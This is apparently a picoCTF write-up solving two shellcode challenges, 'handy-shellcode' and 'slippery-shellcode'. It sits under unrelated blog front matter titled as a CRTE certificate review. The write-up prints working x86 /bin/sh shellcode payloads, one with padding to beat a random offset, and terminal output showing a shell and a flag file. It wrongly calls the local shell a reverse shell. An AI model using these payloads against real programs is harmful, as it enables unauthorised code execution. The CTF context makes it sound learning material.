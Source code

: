 ```yaml
---
date: 2023-11-30
layout: post
title:  "Certified Red Team Professional (CRTE) Review"
subtitle: "CRTE Cerifcate Reveiw"
description: >- 
  CRTE - Certified Red Team Expert is an intermediate/advanced hands-on certification on Red Team, Enterprise secuirty and Active Directory security.
tags: 
  - Review 
  - Certifcate
image: >- 
  /assets/img/CRTE/CRTE.png
optimized_image: >- 
  /assets/img/CRTE/CRTE.png
category: blog
author: Karim (Coke)
paginate: true
---
```


# handy-shellcode

> Points: 50  
> Difficulty: easy  

This challenge looks easy so let's see what will happen  
After Downloading this challenge program we will use `chmod +x vuln` I think it's Basic knowledge  
Now let's run it  
```
root@kali:~/Desktop/picoctf# ./vuln
Enter your shellcode:
ls
ls
Thanks! Executing now...
Segmentation fault
```
It's Taking what any thing I type it and print it Hmmm  
Let's try to get reverse shellcode from [Shell-Code.org](http://shell-storm.org/shellcode/files/shellcode-606.php)  
So our Payload will be  
```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln  
```
Then you will get reverse shell it's easy to hack :D  

---

# slippery-shellcode

> Points: 200  
> Difficulty: easy  

This challenge looks like first one so let's try the same shellcode and see what will happen  
```
root@kali:~/Desktop/picoctf# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                  1�@̀
Thanks! Executing from a random location now...
ls
Segmentation fault
```
Wait it's told me `from a random location` let's read the source code  
`int offset = (rand() % 256) + 1;`  
Hmm Let's see to give it bunsh of `A` in the first  
So our Payload will be  
```
(python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
```  

Let's see what will happen  
 
``` 
root@kali:~/Desktop/picoctf# (python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin����°
  1�@̀
Thanks! Executing from a random location now...

ls
flag.txt  vuln
```
We got our shell again it's looks easy too

